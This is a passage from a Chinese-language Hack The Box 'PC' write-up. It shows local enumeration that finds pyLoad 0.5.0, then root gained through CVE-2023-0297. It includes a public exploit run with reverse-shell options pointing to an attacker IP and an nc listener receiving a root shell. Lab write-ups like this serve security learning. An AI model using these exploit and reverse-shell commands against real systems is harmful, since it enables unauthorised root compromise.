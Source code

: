 8000和9666都是同样的结果：
```bash
sau@pc:~$ curl 127.0.0.1:8000
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/login?next=http%3A%2F%2F127.0.0.1%3A8000%2F">/login?next=http%3A%2F%2F127.0.0.1%3A8000%2F</a>. If not, click the link.
```

将响应中的链接解码：/login?next=http://127.0.0.1:8000/

然后再次curl看看，返回一个网页源码：
```bash
sau@pc:~$ curl 127.0.0.1:8000/login?next=http://127.0.0.1:8000/
<!DOCTYPE html>
<html lang="en">
……
<title>Login - pyLoad </title>
……
```

看title注意到是个pyLoad的登陆界面。

本来还弄了个SSH隧道，访问了一下pyLoad网页。  
尝试了一下默认凭据登陆、SQLi，没什么进展。

![pyLoad](HTB-PC-SSHtunneling.png)

然后发现原来有[gitlab项目](https://github.com/pyload/pyload)，能运行命令。
```bash
sau@pc:~$ which pyload
/usr/local/bin/pyload
sau@pc:~$ pyload --version
pyLoad 0.5.0
```

知道版本，就搜了下是否有公开漏洞。


## Privilege Escalation

### PoC (CVE-2023-0297)

- [NVD](https://nvd.nist.gov/vuln/detail/CVE-2023-0297)
- [Exp](https://github.com/JacobEbben/CVE-2023-0297/tree/main)

[NVD里有个exp的链接](https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/)，试了下虽然确实可以创建 `/tmp/pwnd`，不过想给bash加SUID或者执行反弹shell命令就没用……不懂为什么。  
结果还是根据里面写的CVE号码继续搜了搜其他Exp，就找到上面那个Exp，运行后成功get shell。

## flag: root

```bash
└─$ python exp.py -t 127.0.0.1:8000 -c id -I 10.xx.xx.xx -P 81
[SUCCESS] Running reverse shell. Check your listener!

---

└─$ nc -lvnp 81                  
listening on [any] 81 ...
connect to [10.xx.xx.xx] from (UNKNOWN) [10.10.11.214] 48940
bash: cannot set terminal process group (1040): Inappropriate ioctl for device
bash: no job control in this shell
root@pc:~/.pyload/data# id
id
uid=0(root) gid=0(root) groups=0(root)
```